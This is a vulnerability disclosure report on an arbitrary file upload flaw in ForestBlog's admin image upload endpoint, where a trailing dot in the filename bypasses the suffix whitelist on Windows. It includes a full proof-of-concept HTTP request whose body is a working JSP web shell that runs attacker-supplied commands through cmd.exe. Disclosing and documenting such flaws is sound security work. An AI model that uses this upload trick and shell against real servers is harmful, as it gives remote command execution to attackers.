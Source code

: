 **BUG_Author:**

Daydust

**Vendor:**

https://github.com/saysky/ForestBlog

**Software:**

https://github.com/saysky/ForestBlog

**Vulnerability File:**

ForestBlog-master/ForestBlog/src/main/java/com/liuyanzhao/ssm/blog/controller/admin/UploadFileController.java

**Description:**
ForestBlog Exists Arbitrary File Upload Vulnerability on /admin/upload/img Interface

When the code processes the logic of file upload, the character after the last dot is used as the suffix name, and a series of judgment danger detection is performed on the suffix name

![image-20231212223542659](img/image-20231212223542659.png)

In Windows system, we can upload any file by adding a "." after the file's name.In this case, the suffix value becomes a period, and allowSuffix contains a period, thus bypassing whitelist suffix detection

![image-20231212235628456](img/image-20231212235628456.png)





![image-20231212235938258](img/image-20231212235938258.png)



```http
POST /admin/upload/img HTTP/1.1
Host: 172.24.93.157:8090
Content-Length: 1022
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6Tz1JmHBgIb3k3BS
Origin: http://172.24.93.157:8090
Referer: http://172.24.93.157:8090/admin/user/edit/5
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: username=admin; password=123456; JSESSIONID=0AC95C46C4BFDF9EE9424A1EA925EBA2
Connection: close

------WebKitFormBoundary6Tz1JmHBgIb3k3BS
Content-Disposition: form-data; name="file"; filename="1.jpg.jsp."
Content-Type: application/octet-stream

<%@ page import="java.util.*,java.io.*,java.net.*"%>
<%
//
// JSP_KIT
%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
        Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML>

------WebKitFormBoundary6Tz1JmHBgIb3k3BS--


```

When uploading, the corresponding address will be displayed, or right click on the saved avatar file, you can see the full address. Windows automatically deletes the dot at the end of the file. Therefore, delete the dot at the end of the file to successfully access the file。

![image-20231213000618896](img/image-20231213000618896.png)

You can also see that our files were successfully uploaded locally

![image-20231213000645385](img/image-20231213000645385.png)
